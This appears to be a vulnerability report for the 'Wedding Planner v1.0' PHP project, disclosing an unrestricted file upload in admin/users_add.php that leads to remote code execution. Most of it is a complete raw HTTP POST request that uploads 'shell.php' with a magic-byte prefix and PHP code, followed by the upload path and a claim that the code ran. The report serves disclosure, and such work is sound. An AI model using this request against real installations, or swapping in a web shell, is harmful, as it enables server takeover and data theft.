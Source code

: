 # Wedding Planner v1.0 by pushpam02 has arbitrary code execution (RCE)

BUG_Author: Li4u

vendor: https://www.sourcecodester.com/php/15375/wedding-planner-project-php-free-download.html

Vulnerability url: http://ip/Wedding-Management-PHP/admin/users_add.php

Loophole location: The Add New User function of "User Management" module in the background management system-- > there is an arbitrary file upload vulnerability (RCE) in the picture upload point of "users_add.php" file.

Click "Edit My Account" to save

Request package for file upload：

```sql
POST /Wedding-Management-PHP/admin/users_add.php HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Referer: http://192.168.1.19/Wedding-Management-PHP/admin/users_add.php
Cookie: PHPSESSID=ncd6h7doujvbbft46r0m7mbr6s
Connection: close
Content-Type: multipart/form-data; boundary=---------------------------306421971929630
Content-Length: 1236

-----------------------------306421971929630
Content-Disposition: form-data; name="submit"


-----------------------------306421971929630
Content-Disposition: form-data; name="firstname"

1
-----------------------------306421971929630
Content-Disposition: form-data; name="lastname"

1
-----------------------------306421971929630
Content-Disposition: form-data; name="email"

1
-----------------------------306421971929630
Content-Disposition: form-data; name="username"

1
-----------------------------306421971929630
Content-Disposition: form-data; name="password"

1
-----------------------------306421971929630
Content-Disposition: form-data; name="password2"

1
-----------------------------306421971929630
Content-Disposition: form-data; name="gender"

m
-----------------------------306421971929630
Content-Disposition: form-data; name="address"

1
-----------------------------306421971929630
Content-Disposition: form-data; name="designation"

0
-----------------------------306421971929630
Content-Disposition: form-data; name="profile_picture"; filename="shell.php"
Content-Type: application/octet-stream

JFJF
<?php phpinfo();?>
-----------------------------306421971929630--
```

The files will be uploaded to this directory \Wedding-Management-PHP\admin\upload\users
![image](https://user-images.githubusercontent.com/54017627/183275407-79db0b11-87da-4d8f-b3e7-7cef566acd0e.png)

We visited the directory of the file in the browser and found that the code had been executed
![image](https://user-images.githubusercontent.com/54017627/183275416-db2ac9d9-aa52-4b81-a966-74c6bc9a296b.png)
